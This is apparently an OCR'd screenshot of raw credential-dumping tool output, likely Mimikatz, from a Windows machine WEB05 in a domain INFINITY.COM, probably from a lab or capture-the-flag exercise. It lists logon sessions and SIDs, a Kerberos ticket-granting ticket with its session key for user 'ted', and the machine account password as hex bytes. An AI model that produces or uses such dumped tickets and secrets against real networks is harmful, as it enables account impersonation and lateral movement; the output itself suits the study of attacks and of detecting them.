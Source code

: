 	 * Username : ted
	 * Domain   : INFINITY.COM
	 * Password : (null)

	Group 0 - Ticket Granting Service

	Group 1 - Client Ticket ?

	Group 2 - Ticket Granting Ticket
	 [00000000]
	   Start/End/MaxRenew: 3/3/2025 4:36:19 PM ; 3/4/2025 2:36:19 AM ; 3/10/2025 4:36:19 PM
	   Service Name (02) : krbtgt ; INFINITY.COM ; @ INFINITY.COM
	   Target Name  (--) : @ INFINITY.COM
	   Client Name  (01) : ted ; @ INFINITY.COM
	   Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ; 
	   Session Key       : 0x00000012 - aes256_hmac      
	     a3472317f40ef7d901bc2e9ae7c571cc09d3fac80f787bb5f47d314f8ca98ba0
	   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2	[...]

Authentication Id : 0 ; 1971079 (00000000:001e1387)
Session           : Service from 0
User Name         : DefaultAppPool
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 3/3/2025 4:58:19 PM
SID               : S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415

	 * Username : WEB05$
	 * Domain   : infinity.com
	 * Password : 25 69 4c 53 d1 2a 72 2c d6 79 1b 72 68 5b 29 f4 5f 2a 37 95 c8 3d a3 1f 7b 5c 69 b7 d1 a1 4d 2b 58 c7 08 e0 0b dd 91 93 09 7d e6 75 3f 07 03 35 07 a3 e2 df eb 54 07 44 c8 74 44 97 54 71 87 91 b5 25 e4 fc bf 4e 2f 0e fe 41 8f 8d 34 97 ed 59 98 a4 4e c3 87 1e 49 4c b3 dd 6c e4 7b eb 0b 15 3b 03 e6 99 2b 4d 3b 46 2e b8 17 4d cb 8a bb 9a 36 53 e3 16 b5 5d 32 fa 72 0c 13 e7 d6 19 d4 11 8f 2f 33 28 79 b6 81 a9 94 9d 02 f8 82 e6 38 85 c3 64 2f b9 57 ff be 0a 96 87 0f d2 79 ec 10 ba 23 0a 98 f9 d5 a9 04 33 83 ed 84 55 3b b5 a2 18 12 06 11 b0 44 84 6e 23 87 57 51 ed 13 b0 02 f7 36 e8 19 43 aa 8f 70 7c 17 77 a0 1c 61 f3 fa 5d 79 0a 7d 9f 76 89 c6 3d db dd b8 ef 2c a4 0a 5d 6b ac a6 39 c1 f8 c8 fb 32 51 67 22 3a 5d b0 6b 

	Group 0 - Ticket Granting Service

	Group 1 - Client Ticket ?

	Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 510591 (00000000:0007ca7f)
Session           : Interactive from 0
User Name         : setup
Domain            : WEB05
Logon Server      : WEB05
Logon Time        : 3/3/2025 4:36:09 PM
SID               : S-1-5-21-2653632137-2977193267-2526065675-1000

	 * Username : setup
	 * Domain   : WEB05
	 * Password : (null)
